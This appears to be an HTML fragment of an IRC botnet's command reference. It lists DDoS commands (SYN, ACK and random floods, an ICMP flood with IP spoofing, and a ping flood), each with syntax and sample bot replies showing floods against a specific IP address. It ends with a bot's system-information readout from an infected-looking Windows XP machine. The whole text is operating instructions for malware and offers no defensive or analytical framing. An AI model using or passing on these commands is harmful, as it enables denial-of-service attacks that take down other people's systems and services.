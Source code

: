 
<TR>
<TD>
ddos.syn<BR />
ddos.ack<BR />
ddos.random<BR />
</TD>
<TD>
&nbsp;
</TD>
<TD>
.ddos.syn &lt;ip&gt; &lt;port&gt; &lt;length&gt;<BR />
.ddos.ack &lt;ip&gt; &lt;port&gt; &lt;length&gt;<BR />
.ddos.random &lt;ip&gt; &lt;port&gt; &lt;length&gt;<BR />
</TD>
<TD>
Starts a DDoS (syn, ack, or random) on &lt;ip&gt;:&lt;port&gt; for &lt;length&gt;
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .ddos.random<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [DDoS]: Flooding: (24.222.212.37:337) for 120 seconds.
</TD>
</TR>


<TR>
<TD>
icmpflood
</TD>
<TD>
icmp
</TD>
<TD>
.icmpflood &lt;ip&gt; &lt;length&gt; [-r]
</TD>
<TD>
Starts a ICMP flood on &lt;ip&gt; for &lt;length&gt;. If -r is present
it spoofs the IP's.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .icmpflood 24.222.212.37 120 -r<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [ICMP]: Flooding: (24.222.212.37) for 60 seconds.
</TD>
</TR>


<TR>
<TD>
pingflood
</TD>
<TD>
ping<BR />
p
</TD>
<TD>
.pingflood &lt;ip&gt; &lt;packets&gt; &lt;size of packets&gt; &lt;delay&gt;
</TD>
<TD>
Sends &lt;number of packets&gt; to &lt;ip&gt; with sizes of &lt;size&gt; and
a delay of &lt;delay&gt;.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .pingflood 24.222.212.37 120 1000 4096 100<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [UDP]: Sending 1000 packets to: 24.222.212.37. Packet size: 4096, Delay: 100(ms).
</TD>

[<B>Disk</b>]: 10,506,476KB total, 4,446,864KB free. [<B>OS</b>]: Windows XP (Service Pack 1) (5.1, Build 2600).
[<B>Sysdir</b>]: C:\WINDOWS\System32. [<B>Hostname</b>]: microsoft.com (207.46.134.155). [<B>Current User</b>]: Bill Gates.
[<B>Date</b>]: 02:Jun:2004. [<B>Time</b>]: 23:04:47. [<B>Uptime</b>]: 17d 8h 28m.